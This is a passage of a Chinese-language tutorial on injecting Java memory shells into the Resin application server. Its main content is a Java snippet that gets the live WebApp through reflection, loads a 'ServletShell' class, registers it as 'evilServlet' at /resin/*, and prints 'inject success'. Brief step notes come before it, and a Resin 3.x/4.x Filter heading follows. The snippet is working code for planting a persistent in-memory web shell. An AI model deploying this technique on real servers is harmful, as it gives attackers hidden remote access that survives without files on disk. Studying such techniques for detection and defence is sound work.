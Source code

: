 - 构造servletMapping，添加相关配置

  ```
  servletMapping.setServletClass();
  servletMapping.setServletName();
  servletMapping.addURLPattern();
  ```

- 调用成员方法addServletMapping添加该servletMapping即可



代码实现

```java
String servletName = "evilServlet";
String urlPatternX = "/resin/*";
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class<?> servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object servletRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp) servletRequest.getClass().getMethod("getWebApp").invoke(servletRequest);
Class evilClazz = classLoader.loadClass("com.example.general.ServletShell");
ServletMapping servletMapping = new ServletMapping();
servletMapping.setServletClass(evilClazz.getName());
servletMapping.setServletName(servletName);
servletMapping.addURLPattern(urlPatternX);
webApp.addServletMapping(servletMapping);
response.getWriter().write("inject success");
```



测试效果

![image-20220106164158028](img/image-20220106164158028.png)



#### Resin 3.x & 4.x

##### Filter
